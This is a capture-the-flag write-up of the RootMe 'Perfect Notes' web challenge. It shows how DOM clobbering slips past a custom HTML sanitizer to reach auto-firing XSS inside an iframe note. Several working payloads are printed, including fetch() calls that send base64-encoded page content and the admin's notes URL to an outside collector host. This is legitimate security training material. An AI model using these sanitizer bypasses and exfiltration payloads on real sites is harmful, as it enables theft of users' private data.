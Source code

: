 # CTF RootMe 10K - Perfect Notes

![](./img/perfectnotes-author.svg) ![](./img/perfectnotes-difficulty.svg) ![](./img/perfectnotes-category.svg)

## ![](./img/perfectnotes-desc.png)

## Discovering the website

![](./img/perfectnotes-1.png)

We arrive on a landing page that asks us who we are. Not afraid that my username would be stolen, I've used Feelzor. We are redirected to `/notes/{guid}`.

![](./img/perfectnotes-2.png)

Here, we can write our secret notes, that definitely aren't accessible by the outside world **\*coughs\***.

I tried multiple payloads to see what was possible and what wasn't.

| Payload                             | XSS Achieved ?                         |
| ----------------------------------- | -------------------------------------- |
| `<a href=javascript:alert(1)>`      | <span style="color: green;">Yes</span> |
| `<img src="1337" onerror=alert(1)>` | <span style="color: red;">No</span>    |

Incredible, so far I've already achieved an XSS.. but wait, it requires user interaction. Oh no, my very security-aware user will never click on this link **\*sad pentester noise\***.

Fortunately, we can see what happens on the front-end, with a very simple `script` tag. It is in fact somehow long and I do not want to pollute my writeup, so I will just put the interesting part :

```js
// source: https://github.com/cure53/DOMPurify/blob/main/src/tags.js
this.ALLOWED_TAGS = ["a", "abbr", "acronym", "address", "area", "article", "aside", "audio", "b", "bdi", "bdo", "big", "blink", "blockquote", "body", "br", "button", "canvas", "caption", "center", "cite", "code", "col", "colgroup", "content", "data", "datalist", "dd", "decorator", "del", "details", "dfn", "dialog", "dir", "div", "dl", "dt", "element", "em", "fieldset", "figcaption", "figure", "font", "footer", "form", "h1", "h2", "h3", "h4", "h5", "h6", "head", "header", "hgroup", "hr", "html", "i", "img", "input", "ins", "kbd", "label", "legend", "li", "main", "map", "mark", "marquee", "menu", "menuitem", "meter", "nav", "nobr", "ol", "optgroup", "option", "output", "p", "picture", "pre", "progress", "q", "rp", "rt", "ruby", "s", "samp", "section", "select", "shadow", "small", "source", "spacer", "span", "strike", "strong", "style", "sub", "summary", "sup", "table", "tbody", "td", "template", "textarea", "tfoot", "th", "thead", "time", "tr", "track", "tt", "u", "ul", "var", "video", "wbr"];

// source: https://github.com/cure53/DOMPurify/blob/main/src/attrs.js
this.ALLOWED_ATTRIBUTES = ["accept", "action", "align", "alt", "autocapitalize", "autocomplete", "autopictureinpicture", "autoplay", "background", "bgcolor", "border", "capture", "cellpadding", "cellspacing", "checked", "cite", "class", "clear", "color", "cols", "colspan", "controls", "controlslist", "coords", "crossorigin", "datetime", "decoding", "default", "dir", "disabled", "disablepictureinpicture", "disableremoteplayback", "download", "draggable", "enctype", "enterkeyhint", "face", "for", "headers", "height", "hidden", "high", "href", "hreflang", "id", "inputmode", "integrity", "ismap", "kind", "label", "lang", "list", "loading", "loop", "low", "max", "maxlength", "media", "method", "min", "minlength", "multiple", "muted", "name", "nonce", "noshade", "novalidate", "nowrap", "open", "optimum", "pattern", "placeholder", "playsinline", "poster", "preload", "pubdate", "radiogroup", "readonly", "rel", "required", "rev", "reversed", "role", "rows", "rowspan", "spellcheck", "scope", "selected", "shape", "shadowroot", "size", "sizes", "span", "srclang", "start", "src", "srcset", "step", "style", "summary", "tabindex", "title", "translate", "type", "usemap", "valign", "value", "width", "xmlns", "slot"];
```

This tells us that the XSS is protected by a **whitelist** and not a **blacklist**. Even if I always advise everyone to use **whitelists**, I'm angry at the fact that this is a best practice and it will be hard to find a vulnerability here.

Indeed, the tags and attributes are from the latest version of `DOMPurify`, and I decided for now that it would be "safe", in the sense that I won't be able to find a tag that would easily allow me to achieve my XSS.

So I've been trying to find something in the closed Github issues that would inspire me for an exploit to make. However, since this is definitely not where I had to search, I found nothing (sorry if I spoiled something to you).

Now, back to the beginning.

![Banging head against the wall](./img/perfectnotes-banginghead.webp)

## Dom Clobbering

Let's read a little bit more of the javascript we have on the website.

```js
// source: https://github.com/cure53/DOMPurify/blob/e0970d88053c1c564b6ccd633b4af7e7d9a10375/src/purify.js#L866
const _isClobbered = (elm) => {
  return (
    elm instanceof HTMLFormElement &&
      (typeof elm.nodeName !== 'string' ||
      typeof elm.textContent !== 'string' ||
      typeof elm.removeChild !== 'function' ||
      !(elm.attributes instanceof NamedNodeMap) ||
      typeof elm.removeAttribute !== 'function' ||
      typeof elm.setAttribute !== 'function' ||
      typeof elm.namespaceURI !== 'string' ||
      typeof elm.insertBefore !== 'function' ||
      typeof elm.hasChildNodes !== 'function')
    );
};

// Part of Sanitizer class
sanitize = (input) => {
  var currentNode = "";
  var dom_tree = new DOMParser().parseFromString(input, "text/html");

  var tag_name;
  var nodeIterator = document.createNodeIterator(dom_tree);
  while ((currentNode = nodeIterator.nextNode())) {

    switch(currentNode.nodeType) {
      case currentNode.ELEMENT_NODE:
        var tag_name   = currentNode.nodeName.toLowerCase();
        var attributes = currentNode.attributes;

        // avoid DOMClobbering
        if (_isClobbered(currentNode)) {
          currentNode.parentElement.removeChild(currentNode);

        // avoid mXSS
        } else if (currentNode.namespaceURI !== "http://www.w3.org/1999/xhtml") {
        currentNode.parentElement.removeChild(currentNode);

        // sanitize tags
        } else if (!this.ALLOWED_TAGS.includes(tag_name)){
          currentNode.parentElement.removeChild(currentNode);
        }

        // sanitize attributes
        for (let i=0; i < attributes.length; i++) {
          if (!this.ALLOWED_ATTRIBUTES.includes(attributes[i].name)){
            currentNode.parentElement.removeChild(currentNode);
            break;
          }
        }
    }
  }

  return dom_tree.documentElement.innerHTML;
}
```

We see two things here. The first is that there is a **blacklist** for DOM Clobbering that **isn't** taken from the main branch of DOMPurify (it is from commit `e0970d88053c1c564b6ccd633b4af7e7d9a10375`) and that unallowed tags or attributes, DOM Clobbering and mXSS all lead to the node being removed.

Remember the description? The important part is that it works on **Chromium-Based browsers**, I understood from that assessment that it **won't** work on Firefox. And what works wonderfully on Chromium and not on Firefox? Ding ding ding! That's our friend DOM Clobbering.

I took that as a proof I was on the right lead. Now for trying! I had no idea what DOM Clobbering was, but I was certain I could find a way to exploit it. I read this [Portswigger post](https://portswigger.net/web-security/dom-based/dom-clobbering "https://portswigger.net/web-security/dom-based/dom-clobbering") and I thought that I could reuse its payloads for this challenge.

Now, we have a DOM Clobbering protection, we will necessarily be blocked at some point. So I read what wasn't allowed: `attributes`, `removeChild`... this is not good news. But the great news is that `parentElement` is **not** part of the blacklist!

```html
<form onclick=alert(1)><input id=parentElement>Click me
```

This is my first payload, and it definitely works! The DOM Clobbering is in effect, **but** we have an error that prevents from executing the rest of the script (which is "add the node to the page" - *not shown on the snippet above*, and that's problematic).

`Uncaught DOMException: Failed to execute 'removeChild' on 'Node': The node to be removed is not a child of this node.`

I've tried to chain DOM Clobbering, but this is not working any better.

```html
<form onclick=alert(1) name=parentElement><input id=removeChild>sqd
```

`Uncaught TypeError: Cannot read properties of null (reading 'removeChild')`

After many other tries (only variations of these two payloads, nothing interesting), I've decided that it was time to think again. Take a deep breath, and let's read the JS code again.

![Breathing](https://media.giphy.com/media/9u1J84ZtCSl9K/giphy.gif)

Maybe I can try to use DOM Clobbering to override `_isClobbered`? Well I would be able to, but it wouldn't be a function anymore, and it is defined with the `const` keyword, so it's not writable. 

Override `currentNode`? It's not a global variable so it's theoretically not possible. That's when I thought I had been on the wrong path since the beginning that I found what would unblock me: `switch(currentNode.nodeType)`.

**WELL OF COURSE!**

## On the path to victory

It is now clear. `nodeType` is equal to 1 (value of `ELEMENT_NODE`) when it is an `HTMLElement`, which is exactly what we can override **without** creating an error.

```html
<form onclick=alert(1)><input id=nodeType>Click me
```

![Alert on screen](./img/perfectnotes-3.png)

*(notice that my titles were very clear, I would without any doubt click on such a note)* /s

![Victory!](https://media.giphy.com/media/d2Z4rTi11c9LRita/giphy.gif)

With the help of [Portswigger](https://portswigger.net/web-security/cross-site-scripting/cheat-sheet "https://portswigger.net/web-security/cross-site-scripting/cheat-sheet"), I tried to find a payload that would autoload with the `form` tag. And fortunately, the `style` tag was allowed!

```html
<style>@keyframes x{}</style><form style="animation-name:x" onanimationend="alert(1)"><input id=nodeType></form>
```

This payload will autoload our `alert(1)`, and this works!

## The final boss

I've been hiding a little detail since the beginning for now: our notes are stored in an `<iframe>`, as shown in this js snippet.

```js
// sanitize content
var s = new Sanitizer();
var note_body = document.createElement("iframe");
note_body.setAttribute("frameBorder", 0);
// note_body.setAttribute("sandbox", "");
note_body.setAttribute("width", "100%");
note_body.srcdoc = `${s.sanitize(body)}`;
```

This is problematic since we may have trouble accessing cookies, or the page HTML content.

I've tried to see if I could access the parent HTML, and it is possible.

```html
<style>@keyframes x{}</style><form style="animation-name:x" onanimationend="alert(parent.document.documentElement.innerHTML)"><input id=nodeType></form>
```

![Parent HTML alert](./img/perfectnotes-4.png)

Yes we can, so let's retrieve the notes of the admin!

```html
<style>@keyframes x{}</style><form style="animation-name:x" onanimationend="fetch(`https://putsreq.com/02BNpZoO9N81DAx0ZvF2?content=${btoa(parent.document.querySelector('#notes-list').innerHTML)}`)"><input id=nodeType></form>
```

And of course, we can only see **our** notes. The admin notes are hidden somewhere else. We can't steal their cookies (I've tried and they have none, or they have the `httpOnly` field).

I've tried to go to the main page again, and noticed I am immediately redirected to `/notes/{guid}` again. Isn't this our solution?

```html
<style>@keyframes x{}</style><form style="animation-name:x" onanimationend="fetch('/notes').then((res) => {fetch(`https://putsreq.com/02BNpZoO9N81DAx0ZvF2?content=${btoa(res.url)}`)});"><input id=nodeType></form>
```

We receive a link that contains another GUID than ours: `bb9ccf6f-2ec7-4b14-8a6c-6df064ae18a7`. When going to `/notes/bb9ccf6f-2ec7-4b14-8a6c-6df064ae18a7`, we can see the admin notes.

![flag](./img/perfectnotes-5.png)

**Flag: `RM{T4k3_C4R3_0f_Sh4d0w_D0M_Wh1T_S4n1T4Z3R}`**
